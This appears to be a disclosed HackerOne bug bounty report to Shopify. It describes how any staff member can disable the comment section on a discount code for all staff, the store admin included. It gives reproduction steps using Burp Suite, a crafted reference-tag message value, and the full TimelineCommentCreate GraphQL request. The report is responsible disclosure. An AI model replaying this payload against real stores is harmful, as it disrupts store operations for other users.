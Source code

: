 # any staff members have the ability to comment in [discounts] he/she can disable comment section it to other staff even the admin of the store

## Report Details
- **Report ID**: 629150
- **URL**: https://hackerone.com/reports/629150
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-06-25T15:35:08.768Z
- **Disclosed**: 2019-07-15T14:20:18.173Z

## Reporter
- **Username**: modam3r5
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

I found this cool behavior by mistake when I was testing for some `GraphQL`, any user have ability to comment in `discounts code ` at discounts section can turn off comments to the other staff members include the admin/manager of the store.
this happens because when the `GraphQL` used to create a comment that contains a **Reference page** TAG and this TAG for an another store `Reference page` this will make the request return with an internal error that will affect the conversion on the **discounts code** that will lead to disabled it to everyone on the store include the manager/staff of the store.

#PoC
1. create two staffs `[admin1] - [admin2]` in store.
2. from **admin1** create a discount code and add a comment on it.
3. from **admin2** go to the discount code that had been created, turn-on the `Burpsuite` and add a comment.
4. catch the `GraphQL` request and add this in value of parameter ==message== `[#V12221027811351| ]` and send the request.
5. the response will return with an error like this

```json
{"errors":
[
{"message":"Internal error. Looks like something went wrong on our end.\nRequest ID: d8358e69-631c-45a7-929b-630b9abf8b5c (include this in support requests)."}
]
}
```
now if you refresh the page or going direct to **discount code** link will return with an error like this picture below
{F516543}

and the only way to browser the **discount code** that you had added a comment on it is from `/admin/discounts/` and then click on the **discount code** and it will open without include/show the comment section in the footer of discount code page.

{F516544}

##GraphQL request

```json
{"operationName":"TimelineCommentCreate","variables":{"input":{"message":"[#V12221027811351|  ] ","resourceId":"gid://shopify/PriceRule/298300342294","attachments":[]}},"query":"mutation TimelineCommentCreate($input: TimelineCommentCreateInput!) {\n  timelineCommentCreate(input: $input) {\n    event {\n      ...TimelineEvent\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    __typename\n  }\n}\n\nfragment TimelineEvent on Event {\n  id\n  createdAt\n  message\n  ... on BasicEvent {\n    attributeToApp\n    attributeToUser\n    __typename\n  }\n  ... on CommentEvent {\n    rawMessage\n    edited\n    author {\n      id\n      name\n      initials\n      avatar(fallback: NOT_FOUND) {\n        transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3)\n        __typename\n      }\n      __typename\n    }\n    attachments {\n      id\n      image {\n        transformedSrc(maxWidth: 50, maxHeight: 54, scale: 3)\n        __typename\n      }\n      fileExtension\n      size\n      name\n      url\n      __typename\n    }\n    embed {\n      ... on Product {\n        id\n        title\n        featuredImage {\n          altText\n          transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3)\n          __typename\n        }\n        tracksInventory\n        totalInventory\n        variants(first: 1) {\n          edges {\n            node {\n              price\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      ... on ProductVariant {\n        id\n        title\n        image {\n          altText\n          transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3)\n          __typename\n        }\n        product {\n          title\n          __typename\n        }\n        inventoryQuantity\n        inventoryItem {\n          tracked\n          __typename\n        }\n        __typename\n      }\n      ... on Customer {\n        id\n        displayName\n        email\n        ordersCount\n        totalSpentV2 {\n          amount\n          currencyCode\n          __typename\n        }\n        phone\n        note\n        __typename\n      }\n      ... on Order {\n        id\n        name\n        createdAt\n        totalPriceSet {\n          shopMoney {\n            amount\n            currencyCode\n            __typename\n          }\n          __typename\n        }\n        customer {\n          id\n          displayName\n          __typename\n        }\n        lineItems(first: 250) {\n          edges {\n            node {\n              id\n              title\n              product {\n                id\n                __typename\n              }\n              variant {\n                id\n                __typename\n              }\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        displayFinancialStatus\n        displayFulfillmentStatus\n        __typename\n      }\n      ... on DraftOrder {\n        id\n        name\n        createdAt\n        totalPrice\n        customer {\n          id\n          displayName\n          __typename\n        }\n        lineItems(first: 250) {\n          edges {\n            node {\n              id\n              title\n              product {\n                id\n                __typename\n              }\n              variant {\n                id\n                __typename\n              }\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n  __typename\n}\n"}
```

change the only value of parameter `resourceId` with ID of your **discount code ** that you created in the store. 


##Video
this video explain the behavior in case i missed something in the **PoC** steps

{F516550}

## Impact

this can let any other stuff disabled the comment section on any discount code if he/she has the permission to reach it.

## Attachments
- Screenshot_2019-06-25_Shopify.png
- Screenshot_2019-06-25_modam3r5___Discount_codes___2QTJW7VNT16J___Shopify.png
- shopify_PoC.mp4
